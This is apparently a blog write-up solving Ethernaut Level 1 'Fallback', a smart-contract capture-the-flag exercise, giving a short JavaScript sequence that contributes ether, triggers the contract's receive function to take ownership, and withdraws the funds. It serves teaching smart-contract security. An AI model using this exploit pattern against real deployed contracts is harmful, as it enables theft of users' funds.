 +++
title = 'Ethernaut Level 1 - Fallback'
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'First level to introduce interacting with the Levels'
date = 2024-04-08 01:00:00
tags = [ 'writeups' , 'blockchain', 'ethernaut']
+++
1. Use the contribute function to send eth
2. Use standard function to send eth

```js
// Send via Contract ABI
contract.contribute({value:1});
// Check if eth is send
Number(await contract.getContribution());
// Triger `receive` function via normal transaction
sendTransaction({from:player, to:contract.address, value:1});
// 4. PROFIT!!!!
await contract.withdraw();
```